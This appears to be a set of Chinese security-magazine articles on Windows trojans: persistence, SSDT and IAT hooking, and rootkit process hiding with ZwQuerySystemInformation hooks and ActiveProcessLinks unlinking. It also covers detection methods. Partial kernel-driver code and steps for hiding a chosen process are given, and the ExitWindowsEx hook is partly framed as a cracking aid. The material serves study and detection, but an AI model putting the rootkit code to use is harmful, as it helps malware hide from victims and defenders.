木马可以说来自四面八方，任何文件下载、复制都会给木马的传播造成可乘之机。网络专家曾经三番五次地告诫用户不要轻易相信对方发送过来的文件附件，这些附件很有可能是木马或者病毒的载体，无论这些附件是来自可信或者不可信用户的邮件，还是来自聊天工具传送过来的附件。盗版软件往往是木马和病毒的重灾区，不要轻易相信一些不可信网站提供的下载链接，这些网站在给你提供方便的同时，也会给你带来诸多的麻烦。没有信誉的网站往往会通过它们的主页来传播木马。上面这些木马大部分是可以避免的，用户只要具备一定的安全常识，这些“雕虫小技”是不足挂齿的，它们基本上不会给用户带来多大的威胁。

局域网为木马的传播提供了温床，而网络文件共享则成了木马软件攻击的首要目标。另外，越来越多的木马趋向于利用操作系统的各种漏洞，比如利用 RPC 和 lsass、WebDAV 缓冲区溢出漏洞，通过溢出代码实现木马服务器端的安装和加载。面对层出不穷的 Windows 漏洞，明智的用户只能是早打补丁少遭殃。面对这些“木马化”的病毒或者说是“病毒化”的木马，包括微软自身，除了修修补补之外也没有提供一个很好的办法。

## 木马的特征

- 1. **文件名和存放位置的特殊性**  
木马侵入系统后，它往往会把自己复制到一个相对比较隐蔽的位置，显然再没有比 Windows 系统更好的地方了，这里的文件成千上万，手工查找一个木马文件比编写一个木马还难。另外木马文件还会披上系统文件的外装，给自己起一个真假难辨的系统文件名。为了不和系统文件名发生冲突，它有时会放到一些另外的目录，比如 Windows 根目录。木马文件大部分是控制台类型的应用程序，这些程序没有用户界面，没有图标。它决不会保存到系统之外的目录，以免招来杀身之祸。有的时候它是一个动态链接库，但是这个库文件往往需要通过注册表或者一个加载程序来实现自我加载，比如 Rundll32.exe。

- 2. **加载方法的特殊性**  
任何一个木马只有激活后才能生效。对于动态链接库类型的木马而言，常见的加载方法是通过注册表，比如利用 SPI 技术实现一个 Winsock2 挂接的动态链接库，或者利用 BHO（Browser Help Object）实现一个 IE 或资源管理器加载的动态链接库。更多的加载方法是采用 Rundll32 直接调用动态链接库的输出函数，实现程序加载。RunDll32 本身也会创建一个独立的进程，当然还有的木马是采用屏幕保护程序编写的，它可以通过屏保来触发。

相对而言，控制台应用类型的木马更容易暴露，因为它不可避免地会显示一个黑框，尽管它一晃而过，但还是会在任务栏留下蛛丝马迹；通过 Rundll32 程序加载的动态链接库也是一样，因为 Rundll32 或者 Regsvr32 本身就是一个控制台类型的应用程序。它们和前者没有区别，从加载方法上没有区别。

通过修改常见文件的默认打开方式，是木马惯用的卑鄙招数。因为用户使用计算机时不可避免地会操作 .exe、.lnk、.txt、.htm、.bmp、.gif、.jpg、.url、.wav、.mp3 等类型的文件，把这些文件的默认打开程序指向木马程序，会导致用户双击这些文件的图标或者快捷方式时主动运行木马程序。

另外，木马程序为了躲避杀毒软件的查杀，还会通过创建远程线程的技术，把代码注入到系统进程中来运行。

- 3. **木马程序的实现目标**  
木马程序侵入系统中后，往往会开辟一个特殊的端口进行侦听，接受远程的连接。大部分的木马程序都会借助于 Winsock 来实现网络连接。除了驱动型木马之外，大部分木马程序都逃避不了 fport、TCP View 程序的追踪，通过这些辅助工具可以非常容易地发现哪些进程通过哪些协议打开了哪些端口，从而让木马无处藏身。

## 拦截注册表操作防范木马

木马的防范很多时候使用防火墙，对于个人计算机而言，它主要用于发起主动连接，只能提供有限的服务。在配置规则或者防火墙程序开发时，如果有一个端口不断地接受主动连接，为远程提供服务，那么这个端口就该引起足够注意了。防火墙应该在 TCP 连接的 3 次握手、未知 IP 请求和应答、流量异常上给予告警。

大多数的应用程序是不会考虑采用远程线程来实现的，因为这种进程间的通信方式比其他方法都要复杂。如果你的系统中出现了调用远程线程的应用程序，这个程序多半是有问题的。注意创建线程的函数是通过调用创建远程线程来实现的，只是调用远程线程函数的进程句柄和参数中的进程句柄是一样的。杜绝远程线程创建的方法是采用 API HOOK。

API HOOK 的方法应该是很成熟了，用户可以采用微软提供的 detours 工具包来拦截 CreateRemoteThread 函数，在这个函数中比较调用进程的句柄和参数句柄，以决定舍弃调用还是继续。另外 Windows 9x 系统不支持创建远程线程。

木马程序的运行是可以再现的，注册表是木马程序的必经之地，只有这样它才可以在下次启动时被加载，没有一种木马会傻到把自己复制到启动组中。可以说任何一种木马都会或多或少地在注册表中作些文章。为了实现主动加载，它往往会修改一些键值，比如 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 或者 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run。如果木马把自己封装成服务，它必然会在 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services 创建一个键，并设置启动方式（Start）和文件映像路径（ImagePath）。

可以说封住了注册表就可以对付大部分的木马程序，这对于不常安装软件的服务器尤其有效。当然这种方法还可以对付那些不受欢迎的 Spyware，比如 3721 插件。因为所有这些插件只有写入到注册表中才能生效，否则的话它们只能是沉睡在 Windows 目录下的僵尸。

拦截注册表操作的最好方法是在内核态，因为它不需要考虑进程的边界，对系统的开销也可以降低到最小。

拦截的方法主要是拦截系统内核提供的注册表服务。用户可以使用 www.SystemInternals.com 提供的 RegMon 工具，这个工具本身就是通过拦截系统服务实现的。原来这个工具本身提供了实现的源代码，随着这个工具名气的不断增大，SystemInternals 最终停止了这种服务，在它的网站上再也找不到下载源代码的链接。幸运的是作者在这之前下载过它的源代码，我们编写拦截程序可以依赖这个程序为范本。

在实现注册表服务拦截之前，想必用户对拦截哪些键或者键值已经心中有数。实际上所有木马程序可以利用的注册键都可以作为我们的考虑范围。Windows 内核提供了一套和用户态注册表 API 函数相对应的一组服务函数，用户态所有涉及注册表函数的操作最终都是通过这一组服务实现的。通过拦截这些服务，可以有效地捕捉到所有对注册表的操作。我们可以像在用户态程序中拦截 API 函数那样拦截这些服务，把这些服务的入口地址替换为自己提供的函数地址，实施有效拦截。

这组服务包括：  
ZwCreateKey、ZwDeleteKey、ZwEnumerateKey、ZwEnumerateValueKey、ZwFlushKey、ZwQueryKey、ZwQueryValueKey、ZwSetValueKey、ZwLoadKey、ZwUnloadKey、ZwOpenKey、ZwClose、ZwDeleteValueKey。有关这些服务函数的描述，用户可以参考 DDK 文档。

拦截 Windows 服务的方法和拦截 API 函数十分相似。在拦截之前，用户首先应该对提供的函数进行声明，创建一个和原来替换函数调用规范完全一致的目标函数。然后需要得到替换函数的入口地址，保存到一个全局变量中，以便通过这个地址调用原来服务函数提供的功能。接着需要用新的替换函数的入口地址覆盖函数原来的入口地址表，实现函数替换。在新的函数实现中可以根据调用的参数，决定是否调用原来的函数。最后在驱动程序卸载前需要恢复原来的服务入口地址表。

RegMon 源程序几乎实现了全部功能模块，用户只需要做少量修改即可实现自己的注册表服务拦截驱动程序。遗憾的是这个源程序包缺少了一个关键的库文件 regmlib.lib，而这个文件恰恰包含了整个服务函数拦截的细节。让人失望的是，我用 Google 和 Yahoo 搜遍了整个网络也没能找到这个文件的下载处，痛定思痛只好自己参考其他代码实现服务函数的拦截。

下面以拦截 ZwClose 为例介绍一下拦截服务函数的方法，对于其他函数用户可以如法炮制。

### 1. 声明全局的服务入口地址表

```c
typedef struct ServiceDescriptorTableEntry
{
    UINT *ServiceTableBase;
    UINT *ServiceCounterTableBase;
    UINT NumberOfService;
    PUCHAR ParameterTableBase;
} ServiceDescriptorTableEntry, *PServiceDescriptorTableEntry;

__declspec(dllimport) ServiceDescriptorTableEntry KeServiceDescriptorTable;
```

### 2. 定义一个函数替换宏

```c
#define SYSCALL(_function) KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)_function+1)]
```

### 3. 声明函数调用规范

```c
typedef
NTSTATUS
(*ZWCLOSEKEY)(IN HANDLE hKey);
```

### 4. 定义一个全局变量

```c
ZWCLOSEKEY OldZwClose;
```

### 5. 编写替换函数

```c
NTSTATUS
HookRegCloseKey(
    IN HANDLE Handle
)
{
    NTSTATUS ntstatus;
    ...
    ntstatus = OldZwClose(Handle);
    ...
    return ntstatus;
}
```

### 6. 拦截代码实现

```c
NTSTATUS
HookSystemService()
{
    // 保存原来入口地址
    OldZwClose = (ZWCLOSEKEY)(SYSCALL(ZwClose));
    // 关中断，设置新的入口地址
    _asm cli
    (ZWCLOSEKEY)(SYSCALL(ZwClose)) = HookRegCloseKey;
    IsHooked = TRUE;
    _asm sti
    return STATUS_SUCCESS;
}
```

对于其他函数可以仿照上面的函数实现。

### 7. 取消拦截代码

```c
NTSTATUS
UnHookSystemService()
{
    _asm cli
    (ZWCLOSEKEY)(SYSCALL(ZwClose)) = OldZwClose;
    IsHooked = FALSE;
    _asm sti
    return STATUS_SUCCESS;
}
```

上面两个函数可以分别放在 DriverEntry 和 DriverUnload 中实现，也可以放在 Control 分支代码中通过和用户态应用程序 DeviceIoControl 函数调用通信动态替换。

由于代码比较长，这里不再提供详细的实现代码，仅给出 RegMon 提供的源代码文件，读者可以参考本文对代码进行适当修改。

随着 Windows 技术内幕的逐渐公开和 Windows 漏洞的不断发现，木马和反木马、病毒和反病毒之间的较量将会不断地进行技术升级，从而全面推动网络安全领域的技术发展。

> 【本文涉及的代码（程序），请见随书光盘】

## 妙不可言


### 挂接 ExitWindowsEx

随着安全意识的不断提高，许多软件都增强了自我保护功能，比如结束其进程时将会调用 ExitWindowsEx 函数关机或者重启。这种技术在收费管理系统、病毒木马、加壳软件、反破解领域里很常见，因而采用 API Hook 技术挂接 ExitWindowsEx 函数使其失效，对于我们查杀病毒以及软件破解是很有用的。

API Hook 技术应用广泛，常用于屏幕取词、网络防火墙、病毒木马、加壳软件、串口红外通信、游戏外挂、Internet 通信等领域。HOOK 的中文意思就是钩子，API Hook 就是钩住 API，对 API 进行预处理，先执行我们的函数。

改写 IAT 表法实现 API Hook 的思路如下：根据 PE 文件格式穷举模块中的 IMAGE_IMPORT_DESCRIPTOR 文件格式引入函数数组，检查进程空间里是否有要 Hook 的 API 所在的 DLL，如果有则通过 WriteProcessMemory、VirtualProtect 等函数改写 IAT 中的目标 API 函数地址，将其改为我们自定义函数的地址。由于地址不能跨进程引用，所以我们可以使用 Windows 消息钩子将我们 API Hook 所在的 DLL 注入到其他进程里。为了取得较好的效果，推荐使用 WH_GETMESSAGE 类的钩子。

```c
IMAGE_DIRECTORY_ENTRY_IMPORT(&size);
// 查找记录，查找是否存在目标 API 函数 ExitWindowsEx 所在的 user32.dll
for (; pImportDesc->Name; pImportDesc++) {
    LPSTR pszDllName = (LPSTR)((PBYTE)hModCallerModule + pImportDesc->Name);
    if (lstrcmpiA(pszDllName, pszCalleeModuleName) == 0)
        break;
}

// 寻找我们所要 Hook 的 ExitWindowsEx 函数
PIMAGE_THUNK_DATA pThunk =
    (PIMAGE_THUNK_DATA)((PBYTE)hModCallerModule + pImportDesc->FirstThunk);
for (; pThunk->u1.Function; pThunk++) {
    // ppfn 记录了与 IAT 项相应的函数的地址
    PROC *ppfn = (PROC *)&pThunk->u1.Function;
    if (*ppfn == pfnOriginApiAddress) {
        // 如果地址相同，说明找到了我们要 Hook 的函数，进行改写，换其指向我们所定义的函数
        WriteProcessMemory(GetCurrentProcess(), ppfn, &pfnDummyFuncAddress,
            sizeof(pfnDummyFuncAddress), NULL);
        return;
    }
}
```

现在就来解析核心代码：

```c
void WINAPI HookOneAPI(LPCTSTR pszCalleeModuleName,
    PROC pfnOriginApiAddress,
    PROC pfnDummyFuncAddress,
    HMODULE hModCallerModule)
{
    // 对于挂接 ExitWindowsEx 函数而言：
    // pszCalleeModuleName 为 user32.dll；pfnOriginApiAddress 为 ExitWindowsEx；
    // pfnDummyFuncAddress 为 MyExitWindowsEx

    ULONG size;
    // 获取指向 PE 文件中的 Import 中 IMAGE_DIRECTORY_DESCRIPTOR 数组的指针
    PIMAGE_IMPORT_DESCRIPTOR pImportDesc =
        (PIMAGE_IMPORT_DESCRIPTOR)
        ImageDirectoryEntryToData(hModCallerModule, TRUE, ...);
}
```

若想 HOOK 所有模块对目标 API 函数的调用，则需要使用 ToolHelp 函数枚举所有模块，然后逐一调用 HookOneAPI 函数。关键代码如下：

```c
BOOL WINAPI HookAllAPI(LPCTSTR pszCalleeModuleName,
    PROC pfnOriginApiAddress,
    PROC pfnDummyFuncAddress,
    HMODULE hModCallerModule)
{
    if (hModCallerModule == NULL) {
        MEMORY_BASIC_INFORMATION minfo;
        HMODULE hModHookDLL;
        ...
    }
}
```

```cpp
HANDLE hSnapshot;
MODULEENTRY32 me = { sizeof(MODULEENTRY32) };
// MODULEENTRY32，存放被指定进程所应用的模块信息的结构
VirtualQuery(HookOneAPI, &minfo, sizeof(minfo));
hModHookDLL = (HMODULE)minfo.AllocationBase;
hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, 0);
BOOL bOk = Module32First(hSnapshot, &me);
while (bOk) {
    if (me.hModule != hModHookDLL) {
        hModCallerModule = me.hModule; // 赋值
        // 对每一个模块进行 Hook
        HookOneAPI(pszCalleeModuleName, pfnOriginApiAddress,
                   pfnDummyFuncAddress, hModCallerModule);
    }
    bOk = Module32Next(hSnapshot, &me);
}
return TRUE;
```

`CallNextHookEx(hHook, code, wParam, lParam);` 即可实现循环。

现在就剩下自定义 `ExitWindowsEx` 函数了，我们只需注意参数格式和原函数一样即可。自定义的 `MyExitWindowsEx` 函数什么都不做，这样就实现了取消关机的功能了。

另外还有一点要注意一下，对于 `Winlogon.exe`，我们要提升权限至调试权限，代码如下：

```cpp
if (OpenProcessToken(GetCurrentProcess(),
    TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
    LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid);
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    if (!AdjustTokenPrivileges(hToken, FALSE, &tp,
        sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {
        MessageBox(NULL, "提升权限失败！", "", 0);
        return;
    }
}
```

接着就要调用 `SetWindowsHookEx` 来安装 `WH_GETMESSAGE` 类型的钩子，把 API Hook 的 DLL 映射到其他进程空间里：`SetWindowsHookEx(WH_GETMESSAGE, (HOOKPROC)GetMsgProc, hmodDll, dwThreadId)`。`GetMsgProc` 函数里只要写上 `return CallNextHookEx(...)` 即可实现循环。

整个框架就是这样了，由于篇幅原因，具体的不再细说了。光盘内收有网上流传的完整程序代码，具体细节大家可参阅。

[本文涉及的代码（程序），请见随书光盘]

## NT操作系统下的Rootkit技术初探

文／图 JackJone

目前偶对 Windows 下的 Rootkit 技术在学习的过程中有些心得，在这里写出来和各位朋友进行分享。

Rootkit 最早是起源于 UNIX，出现在 20 世纪 90 年代初，在 1994 年 2 月的一篇安全咨询报告中首先使用了 Rootkit 这个名称。这篇安全咨询就是 CERT-CC 的 CA-1994-01，题目是 Ongoing Network Monitoring Attacks，最新的修订时间是 1997 年 9 月 19 日。从出现之后，Rootkit 的发展非常迅速，应用越来越广泛，检测难度也越来越大，而且使用者由计算机高手向“平民化”发展。目前 Windows 平台下的 Rootkit 也日益流行，如 RU、hxdef1.0、AFX2005 等等。

这些都是经典的 Rootkit，通过它们，黑客可以隐藏自己，隐藏文件，隐藏其他不受保护的程序，修改系统的各种配置，修改环境变量，等等，以达到对主机长时间控制的目的。

一个典型的 Rootkit 由以下几个部分组成：隐藏程序（用于隐藏 Rootkit 的程序文件、进程信息、注册表信息，同时也可以为其他进程提供隐藏的帮助）；特洛伊木马程序（为攻击者提供下次进入的后门）；一个远程的 Shell（为攻击者继续渗透和做其他工作进行支持）。

由 Rootkit 的组成部分可以看出，Rootkit 和普通的特洛伊木马的区别主要就是在隐藏的方式和隐藏的功能上，下面主要对 Rootkit 的隐藏来进行一些分析。在开始深入到 Rootkit 的技术细节之前，我们对 Windows NT 的系统内核进行一下简单的相关介绍。

#### 系统服务

- 1. Windows 系统服务。Windows 系统服务是由操作系统提供的一组函数，应用程序接口使得开发者能够直接或者间接地调用系统服务。操作系统以动态链接库的形式提供应用程序接口，而我们平常编写程序用的 API 一些是直接来自相应的系统服务，另一些则依赖其他多个系统服务调用，也就是说应用程序接口和系统服务之间不是一对一的调用。

- 2. Windows NT 下的系统服务。在 Windows NT 下，NT 的 executive（NTOSKRNL.EXE 的一部分）提供了核心的系统服务。这些服务非常简单和原始，各种 Win32、OS/2 和 POSIX 的应用程序接口都是以 DLL 形式提供的，这些应用程序接口反过来又调用 NT executive 提供的服务。尽管调用了相同的服务，但由于子系统名称不同，API 函数的名称也不一定相同，比如 Win32 API 使用 `CreateFile()`，POSIX API 使用 `open()`，但最终都调用 `NtCreateFile()` 系统服务。

- 3. NTOSKRNL 的系统服务的用户接口是以包装函数的形式提供的，这些包装函数都在 NTDLL.DLL 里，通过 INT 2E 指令切换到内核模式并执行所需系统服务。Win32 API 函数（主要在 Kernel32.DLL 和 Advapi.DLL 里）使用这些包装函数来调用系统服务。API 函数会完成参数有效性检查和编码转换，然后调用 NTDLL 中对应包装函数。NTOSKRNL 中的每一个系统服务都有 Service ID。

  示：NTDLL 中的包装函数将所需要的系统服务的 Service ID 送入 EAX 寄存器，将指向堆栈的指针送入 EDX 寄存器，然后发出 INT 2E 指令。这条指令将处理器切换至内核模式，并使处理器开始执行中断描述符表中为 INT 2E 指定的处理程序。该处理程序由 Windows NT 的 executive 创建，INT 2E 处理程序将参数从用户模式堆栈复制到内核模式堆栈，堆栈基址为 EDX 寄存器值，由 NT executive 提供的 INT 2E 处理程序在内部被称为 `KiSystemService()`。

- 4. Ring3 和 Ring0。在 CPU 的所有指令中，有一些指令非常危险，如果错用将导致系统崩溃。CPU 将指令分为特权指令和非特权指令，特权指令只允许操作系统及相关模块使用。Intel 的 CPU 指令特权分为 Ring0、Ring1、Ring2、Ring3。Windows 只使用 Ring0 和 Ring3：Ring0 供操作系统使用，Ring3 供普通应用程序使用。Windows 下的系统服务工作在 Ring0 级别，NT 服务提供的函数完全运行在内核模式下。

## Hook的作用

钩子（Hooking）是一种拦截/监听可执行代码在执行过程中相关信息的通用机制。它可以监视指定窗口的某种消息，该窗口可由任意进程创建；当消息到达后，可先由钩子程序分析处理，再向下递交。钩子可以帮助了解系统内部结构与运行机制，甚至修改系统功能。

## Hook系统服务

通过对 Windows 系统服务和 Hook 技术的简单介绍，可以想到应用程序调用的 API 最终都通过系统服务实现。如果通过挂钩技术对系统服务进行挂钩，就可能达到隐藏目的。查询 Windows 2000 Native API 可知，在任务管理器中查询进程信息是通过 `ZwQuerySystemInformation` 实现，因此挂钩该函数即可修改返回的系统信息。

现这个函数不就能达到隐藏特定的返回值的功能了吗？`ZwQuerySystemInformation` 是在系统服务中提供，挂钩系统服务的最简单的办法就是定位操作系统使用的系统服务调度表（System Service Dispatch Table），以使之指向我们自己的某个函数，对调用返回的各种信息进行修改，然后回调。但是这个表在页表级是操作系统保护的，这个表所在的页的页属性被设置成只有内核模式的程序才能读写，用户级的应用程序不能读写该页单元，因此对这个表进行修改和挂钩必须通过内核驱动来完成。

NTOSKRNL 的 export list 中有一个未公开的表项结构叫做 `KeServiceDescriptorTable()`，这个表项是访问系统服务调度表的关键，我们可以通过它来对系统服务调度表进行访问与修改。此表项的结构如下：

```c
typedef struct ServiceDescriptorTable {
    PVOID ServiceTableBase;
    PVOID ServiceCounterTable;
    unsigned int NumberOfServices;
    PVOID ParamTableBase;
} SERVICE_DESCRIPTOR_TABLE;
```

其中：

- `ServiceTableBase` 是系统服务调度表的基地址；
- `NumberOfServices` 是系统服务调度表描述的服务的数目；
- `ServiceCounterTable` 是操作系统的 checked builds，包含了系统服务调度表中每个服务被调度的次数的计数器，这个计数器由 INT 2E 处理程序（KiSystemService）更新；
- `ParamTableBase` 包含每个系统服务参数字节数表的基地址。

`ServiceTableBase` 和 `ParamTableBase` 都有 `NumberOfServices` 个表项，每个表项都是一个指向相应系统服务的函数指针。

我们只要由 `KeServiceDescriptorTable` 找到了我们关注的系统服务调用程序，就可以修改它对应的 `ServiceTableBase` 参数来实现对相应系统服务调用的 Hook，在这里我们需要修改的相应系统服务是 `ZwQuerySystemInformation`。

## 一个简单的隐藏进程的Rootkit代码分析

```c
#pragma pack(1)
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase; // Used only in checked build
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;
#pragma pack()
```

定义未公开的 `KeServiceDescriptorTable`。将 `KeServiceDescriptorTable` 与相关数据结构联系起来，定义系统调用：

```c
__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
#define SYSTEMSERVICE(function) KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)function+1)]
```

定义未公开的函数 `ZwQuerySystemInformation`：

```c
typedef NTSTATUS (*ZWQUERYSYSTEMINFORMATION)(
    IN ULONG SystemInformationClass,
    IN OUT PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength OPTIONAL
);

typedef NTSTATUS (*ZWQUERYSYSTEMINFORMATION)(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);
```

定义 `ZwQuerySystemInformation` 函数中的数据结构：

```c
struct _SYSTEM_THREADS {
    LARGE_INTEGER KernelTime;
    LARGE_INTEGER UserTime;
    LARGE_INTEGER CreateTime;
    ULONG WaitTime;
    PVOID StartAddress;
    CLIENT_ID ClientId;
    KPRIORITY Priority;
    KPRIORITY BasePriority;
    ULONG ContextSwitchCount;
    ULONG ThreadState;
    KWAIT_REASON WaitReason;
};

struct _SYSTEM_PROCESSES {
    ULONG NextEntryDelta;
    ULONG ThreadCount;
    ULONG Reserved[6];
    LARGE_INTEGER CreateTime;
    LARGE_INTEGER UserTime;
    LARGE_INTEGER KernelTime;
    UNICODE_STRING ProcessName;
    KPRIORITY BasePriority;
    ULONG ProcessId;
    ULONG InheritedFromProcessId;
    ULONG HandleCount;
    ULONG Reserved2[2];
    VM_COUNTERS VmCounters;
    IO_COUNTERS IoCounters; // Windows 2000 only
    struct _SYSTEM_THREADS Threads[1];
};

struct _SYSTEM_PROCESSOR_TIMES {
    LARGE_INTEGER IdleTime;
    LARGE_INTEGER KernelTime;
    LARGE_INTEGER UserTime;
    LARGE_INTEGER DpcTime;
    LARGE_INTEGER InterruptTime;
    ULONG InterruptCount;
};
```

```c
SystemInformationClass,
SystemInformation,
SystemInformationLength,
ReturnLength);

struct _SYSTEM_PROCESSES *ProcCur = (struct _SYSTEM_PROCESSES*)SystemInformation;
struct _SYSTEM_PROCESSES *ProcPre = NULL;
while (ProcCur) {
    if (RtlCompareUnicodeString(&ProcessName, &CurProcessName, TRUE) == 0) {
        // ...
    }
}
```

当前的进程名称 `CurProcessName` 和需要隐藏的进程名称 `ProcessName` 进行比较，如果是需要隐藏的进程，则将指向当前进程的指针后移，摘除当前挂在链表上的进程结构。

```c
{
    if (ProcPre != NULL) {
        if (ProcCur->NextEntryDelta != 0)
            ProcPre->NextEntryDelta += ProcCur->NextEntryDelta;
        else
            ProcPre->NextEntryDelta = 0;
    } else {
        if (ProcCur->NextEntryDelta != 0)
            SystemInformation = (PSYSTEM_PROCESSES)
                ((PTSTR)ProcCur + ProcCur->NextEntryDelta);
        else
            SystemInformation = NULL;
    }
    break;
}
```

修改系统服务调用，保留原始的入口地址，将系统服务对应的地址修改为我们程序的入口地址。

```c
OldZwQuerySystemInformation =
    (ZWQUERYSYSTEMINFORMATION)(SYSTEMSERVICE(ZwQuerySystemInformation));
_asm cli
    (ZWQUERYSYSTEMINFORMATION)
    (SYSTEMSERVICE(ZwQuerySystemInformation)) = NewZwQuerySystemInformation;
_asm sti
```

解除钩子，还原系统服务：

```c
_asm cli
    (ZWQUERYSYSTEMINFORMATION)
    (SYSTEMSERVICE(ZwQuerySystemInformation)) =
        OldZwQuerySystemInformation;
_asm sti
```

调用原始的系统服务，然后通过实现自己的 `ZwQuerySystemInformation` 函数来达到隐藏进程的目的。首先调用原始 `ZwQuerySystemInformation` 函数，得到当前的 `SystemInformation`，然后对 `SystemInformation` 结构进行遍历，查找是否有需要隐藏的进程名称；当发现有需要隐藏的进程名称之后，修改 `SystemInformation` 中的进程队列，取下需要隐藏的进程单元，以达到在任务管理器中隐藏的目的。

```c
rc = ((ZWQUERYSYSTEMINFORMATION)
      (OldZwQuerySystemInformation))(...);
```

最后将结果返回：

```c
return (rc);
```

在这篇文章里面我很粗浅地分析了一个基本的 Rootkit 的进程隐藏功能。这个 Hook `ZwQuerySystemInformation` 来隐藏进程的技术已经能被很多 Rootkit 检测工具查出来，但是对于一般的进程查看工具而言，仍不失为一种比较好的隐藏策略。

### 内核编程实践之进程检测

文/图 XFreeBOY

进程一直以来都是木马和检测木马争夺的热点，隐藏和检测的技术层出不穷。下面是我总结的已知隐藏和检测方法：

#### 进程隐藏 VS 检测

枚举进程的一般方法是通过 Psapi 的 `EnumProcesses()`、`ToolHelp32` 的 `Process32First()`、`Process32Next()` 这些用户态函数。实际上最终也是调用 `NtQuerySystemInformation()` 来得到进程信息，但是对于检测木马和 Rootkit 来说，仅仅用这些用户态 API 显然是不行的。

- 1. 检测方法：
  - Hook `NtQuerySystemInformation()`
  - 实现的木马/Rootkit：Hacker Defender（holy_father@phreaker.net）
  - 检测方法：遍历 `ActiveProcessLinks` 枚举进程，可检测 Hook `NtQuerySystemInformation()`。
- 2. 隐藏方法：
  - 从 `ActiveProcessLinks` 上摘除掉自己。

```text
lkd> da poi(PsInitialSystemProcess)+0x174
81bbd7d4 "System"

lkd> da poi(poi(PsInitialSystemProcess)+0x88)-0x88+0x174
81a6d90c "SMSS.EXE"
......
```

由此可见：用遍历 `ActiveProcessLinks` 的方法可以找到所有进程，是用驱动实现隐藏进程的最简单方法。注意：只在 XP SP2 下测试过。

```cpp
#include <ntddk.h>
#define pWORD ULONG
void DriverUnload(IN PDRIVER_OBJECT Driver_object);
NTSTATUS DriverDispatch(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp);
DWORD FindProcessEPROC(int terminate_PID);
int PIDOFFSET = 0x84;   // XP SP2 下的 PID 偏移
int FLINKOFFSET = 0x88; // XP SP2 下的 ActiveProcessLinks 偏移

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
    DWORD eproc = 0x00000000;
    PLIST_ENTRY plist_active_procs;
    ...
    eproc = FindProcessEPROC(3380);
    if (eproc == 0x00000000) return 0;
    // 从 ActiveProcessLinks 上摘除掉自己的进程
    plist_active_procs = (LIST_ENTRY *)(eproc + FLINKOFFSET);
    ...
    return STATUS_SUCCESS;
}
```


下面是在我的机器 Windows XP SP2 下用 Windbg 进行的试验。

```cpp
// 以下为通过 ActiveProcessLinks 找到 ImageFileName（进程名）
// ...
Irp->IoStatus.Status = STATUS_SUCCESS;
IoCompleteRequest(Irp, IO_NO_INCREMENT);
return STATUS_SUCCESS;

void DriverUnload(IN PDRIVER_OBJECT Driver_object)
{
}

DWORD FindProcessEPROC(int terminate_PID)
// 由 PID 得到 EPROCESS 结构
{
    DWORD eproc = 0x00000000;
    int current_PID = 0;
    int start_PID = 0;
    int i_count = 0;
    PLIST_ENTRY plist_active_procs;
    if (terminate_PID == 0)
        return terminate_PID;
    eproc = (DWORD)PsGetCurrentProcess();
    start_PID = *((DWORD*)(eproc + PIDOFFSET));
    current_PID = start_PID;

    while (1)
    {
        if (terminate_PID == current_PID)
            return eproc;
        else if ((i_count >= 1) && (start_PID == current_PID))
            return 0x00000000;
        else
        {
            plist_active_procs = ((LIST_ENTRY *)(eproc + FLINKOFFSET));
            eproc = (DWORD)plist_active_procs->Flink;
            eproc = eproc - FLINKOFFSET;
            current_PID = *((int *)(eproc + PIDOFFSET));
            i_count++;
        }
    }
}
```

使用方法：把上面的代码用 DDK 编译，就会生成一个 `.sys` 驱动文件，再用驱动加载工具加载（在附件中，当然也可以自己写个应用程序加载）就行了，自己设定的进程就隐藏了。对于这种隐藏方法可以用以下检测方法来检测。

- A. 利用线程调度链表 `KiWaitInListHead`、`KiWaitOutListHead`、`KiDispatcherReadyListHead` 这 3 条链表检测隐藏进程。  
  用该方法可以检测 Hook `NtQuerySystemInformation()` 和从 `ActiveProcessLinks` 上摘除掉自己的 Rootkit。  
  缺点是无法在 Windows XP 和 Windows 2003 上实现，原因是在 XP 和 2003 下只有 `KiWaitListHead` 和 `KiDispatcherReadyListHead` 这两条链表。
- B. 通过查找 EPROCESS 的句柄表（Handle Table）来检测。Icesword 就是通过 `PspCidTable` 这个句柄表来遍历进程的。注意 Windows 2000 和 XP 的句柄表是不同的。在 Windows 2000 SP3 以下版本为三层句柄表结构，而 XP 则使用了句柄表一层一层扩充的方法。通常只要二层就够用了。
- C. 通过在 KPRCB 结构中：

```cpp
struct _KTHREAD *CurrentThread; // 对应线程调度时的当前线程
struct _KTHREAD *NextThread;    // 对应线程调度时的下一线程
```

- D. 另一种方法是挂钩线程调度链表检测进程。

```cpp
// SwapContext() 函数原型
__fastcall SwapContext(
    PETHREAD SwapIn,
    PETHREAD SwapOut
)
```

优点是支持 Windows 2000/XP/2003，且是从环境切换级别上检测，可靠并且理论上可以检测目前所有已知隐藏进程的方法，因为所有进程要执行，必须进行环境切换。缺点是 `SwapContext()` 并不是一个导出函数，而且这个函数是性能敏感函数，一旦 Hook 它会对系统性能带来极大的负面影响。

## 通常检测隐藏进程的工具实现原理

检测隐藏进程实现机制流程如图 2 所示。


用挂钩线程调度链表检测进程的代码，由于篇幅关系就不给出来了，已放在光盘中。

> 【本文涉及的代码（程序），请见随书光盘】

### Message Hook

文/图 BlackBeast


#### 前言

